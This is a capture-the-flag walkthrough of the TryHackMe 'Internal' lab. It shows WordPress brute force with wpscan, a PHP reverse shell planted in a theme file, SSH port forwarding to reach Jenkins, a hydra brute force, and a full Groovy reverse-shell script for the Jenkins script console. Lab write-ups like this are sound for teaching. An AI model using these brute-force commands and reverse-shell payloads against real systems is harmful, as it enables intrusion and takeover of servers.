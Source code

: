 `IP: 10.10.190.194`

Add ip to /etc/hosts

`10.10.190.194	internal.thm`

```
ffuf -c -s -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.190.194/FUZZ
```

This will get /blog and /wordpress so we know it is a wordpress website

`http://internal.thm/blog/wp-admin`

The error say this after we try to login as admin:

`Error: The password you entered for the username admin is incorrect` 

If the error message say "password for username **admin** is incorrect", it means that we got the username right and we only need to find the password

Use burpsuite to intercept to get login parameter

`log=admin&pwd=admin&wp-submit=Log+In&redirect_to=http%3A%2F%2Finternal.thm%2Fblog%2Fwp-admin%2F&testcookie=1`

```
wpscan --url http://internal.thm/blog -U admin -P /usr/share/wordlists/rockyou.txt -t 64
```

`[SUCCESS] - admin / my2boys`

Usually to get reverse shell in wordpress, the common thing to do is to manipulate the .php in themes

Edit 404.php in themes with php reverse shell and go to `http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php`

And we get reverse shell as **www-date**

/opt/wp-save.txt

```
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```

ssh in and we get flag 

`THM{REDACTED}`

**jenkins.txt**

```
Internal Jenkins service is running on 172.17.0.2:8080
```

There is a server that run locally

We can ssh again but with local network include

`ssh -L 8080:127.0.0.1:8080 aubreanna@10.10.190.194`

And we see that docker0 ip now

```
System load:  0.0               Processes:              113
  Usage of /:   63.8% of 8.79GB   Users logged in:        1
  Memory usage: 34%               IP address for eth0:    10.10.190.194
  Swap usage:   0%                IP address for docker0: 172.17.0.1
```
go to 127.0.0.1:8080 and we see jenkin login page

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 http-post-form "/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=/&Submit=Sign in:Invalid username or password" -s 8080 -I
```

`[8080][http-post-form] host: 127.0.0.1   login: admin   password: spongebob`

After we logged in, we go to Managejenkins->Script console to get reverse shell

```
String host="$MY_IP";
int port=1234;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

And we listen on port 1234 `nc -lnvp 1234`

We get shell as **jenkins**

/opt/note.txt

```
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```

ssh as root and can cat out root.txt

`THM{REDACTED}`
